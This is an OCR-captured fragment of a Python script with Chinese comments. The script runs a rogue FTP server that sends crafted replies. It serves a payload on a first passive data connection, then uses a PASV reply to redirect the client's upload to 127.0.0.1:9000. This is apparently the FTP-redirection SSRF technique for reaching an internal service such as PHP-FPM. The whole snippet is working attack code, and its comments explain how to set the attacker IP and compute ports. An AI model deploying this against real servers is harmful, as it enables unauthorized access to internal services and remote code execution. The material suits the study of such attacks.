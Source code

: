 ```python
​
# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()
​
# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")
​
    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")
​
    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")
​
    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")
​
    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 这里填写自己的IP 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000
​
    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据链接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()
​
    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```